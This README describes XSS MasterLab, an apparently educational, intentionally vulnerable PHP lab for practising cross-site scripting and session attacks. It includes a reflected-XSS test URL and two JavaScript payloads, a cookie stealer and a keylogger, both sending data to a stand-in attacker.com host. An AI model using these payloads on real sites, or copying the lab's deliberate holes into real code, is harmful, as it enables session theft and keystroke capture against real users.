 # XSS MasterLab: Cross-Site Scripting Vulnerability Simulator  

![XSS MasterLab Banner](https://via.placeholder.com/1200x400?text=XSS+MasterLab+Banner+Image)  
*Replace with your actual banner image*

## Overview  
**XSS MasterLab** is a comprehensive educational platform designed for cybersecurity professionals, developers, and students to safely study, demonstrate, and understand Cross-Site Scripting (XSS) vulnerabilities in a controlled environment. This intentionally vulnerable web application simulates real-world scenarios to teach offensive security techniques and defensive countermeasures.

## Key Features  
- 🎯 **Complete XSS Vulnerability Suite**: Reflected, Stored, and DOM-based XSS
- 🔓 **Session Attacks**: Session fixation, session hijacking, and ID brute-forcing
- 🕵️ **MITB Simulation**: Realistic Man-in-the-Browser attack demonstration
- 🛡️ **Security Labs**: Hands-on vulnerability exercises with clear learning objectives
- 📊 **Visual Analytics**: Attack visualization and impact demonstration
- 🧩 **Modular Design**: Extensible architecture for adding new vulnerabilities
- 🎨 **Professional UI**: Clean, responsive interface with theme customization

## Vulnerability Matrix  
| Attack Type          | File         | Vulnerability Class       |
|----------------------|--------------|---------------------------|
| Reflected XSS        | index.php    | Non-sanitized GET input   |
| Stored XSS           | comment.php  | Unsanitized user content  |
| DOM-Based XSS        | index.php    | Unsafe document.write()   |
| Session Fixation     | login.php    | Predictable session IDs   |
| Session Bruteforce   | brute.php    | Short session identifiers |
| MITB Attack          | mitb.php     | Credential theft via XSS  |
| Session Hijacking    | profile.php  | Missing HttpOnly flag     |

## Setup Instructions  
1. **Requirements**:  
   - XAMPP/WAMP server (PHP 7.4+)
   - Modern web browser

2. **Installation**:  
   ```bash
   # Clone repository
   git clone https://github.com/your-username/xss-masterlab.git
   
   # Move to htdocs
   mv xss-masterlab /path/to/xampp/htdocs/
   
   # Create storage directory
   mkdir store
   chmod 777 store
   ```

3. **Access Application**:  
   `http://localhost/xss-masterlab/index.php`

## Usage Guide  
### Basic Attacks  
1. **Reflected XSS**:  
   `http://localhost/xss-masterlab/index.php?name=<script>alert(1)</script>`

2. **Stored XSS**:  
   - Submit malicious script via comment.php
   - View payload execution in view.php

3. **Session Bruteforce**:  
   - Visit brute.php to get session ID
   - Bruteforce with: `brute.php?sid=GUESS`

### Advanced Scenarios  
```javascript
// Session Hijacking Payload
fetch('https://attacker.com/steal?cookie=' + document.cookie)

// Keylogger Implementation
document.addEventListener('keypress', (e) => {
  fetch('https://attacker.com/log?key=' + e.key)
})
```

### MITB Attack  
1. Navigate to mitb.php
2. Enter credentials in fake login form
3. Observe credential theft simulation

## Security Features  
While demonstrating vulnerabilities, XSS MasterLab includes safety measures:
- Isolated environment with no external network access
- Automatic session expiration
- IP-based request logging
- Content Security Policy headers (disabled for training)
- Clear security warnings throughout UI

## Ethical Use Disclaimer  
> **Warning**: This application contains intentional security vulnerabilities. Never deploy on public servers or networks accessible to untrusted parties. Use exclusively for:
> - Security education
> - Penetration testing training
> - Secure coding demonstrations
> - Security awareness workshops

Unauthorized use for attacking systems without explicit permission is illegal.

## Contributing  
We welcome contributions! Please follow these steps:
1. Fork the repository
2. Create a new branch (`git checkout -b feature/improvement`)
3. Commit changes (`git commit -am 'Add new feature'`)
4. Push to branch (`git push origin feature/improvement`)
5. Create new Pull Request

## License  
This project is licensed under the **Educational Community License v2.0**  
Copyright © 2025 Netrinix Solutions. All rights reserved.

---
**Developed for Educational Purposes by Netrinix Security Labs**  
[Report Issues](mailto:security@netrinix.com) | [Request Features](mailto:features@netrinix.com)
